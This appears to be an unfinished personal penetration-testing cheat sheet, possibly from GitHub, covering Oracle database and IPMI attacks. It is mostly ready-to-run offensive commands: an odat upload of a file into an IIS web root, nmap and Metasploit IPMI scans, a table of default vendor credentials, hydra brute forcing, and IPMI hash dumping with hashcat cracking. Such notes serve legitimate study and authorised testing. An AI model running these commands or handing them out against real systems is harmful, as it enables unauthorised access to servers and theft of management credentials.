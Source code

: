 #### Exploiting Oracle Database
##### Uploading a File to the Server
Upload a test file:
```bash
echo "Test Upload" > test.txt
./odat.py utlfile -s <IP> -d XE -U <username> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot test.txt ./test.txt
```
Check if file upload was successful:
```bash
curl -X GET http://<IP>/test.txt
```

### IPMI - Intelligent Platform Management Interface - Port 623
#### Scanning for IPMI Services
```bash
nmap -sU -p 623 --script ipmi-* <IP>
```
Using Metasploit:
```bash
use auxiliary/scanner/ipmi/ipmi_version
set rhosts <IP>
run
```

#### Default Credentials to Try

| Product         | Username   | Password                 |
|----------------|-----------|--------------------------|
| Dell iDRAC     | root      | calvin                   |
| HP iLO        | Administrator | 8-character random string |
| Supermicro IPMI | ADMIN     | ADMIN                    |

#### Bruteforce IPMI Credentials
```bash
hydra -L users.txt -P passwords.txt <IP> ipmi -V
```

#### Dumping IPMI Password Hashes
Using Metasploit:
```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts <IP>
run
```

#### Cracking IPMI Hashes with Hashcat
```bash
hashcat -m 7300 ipmi_hashes.txt rockyou.txt --force
```
### This is not complete yet. I plan to add more stuff about Remote management protocols and detailed explanation of things I havent totally understood next week.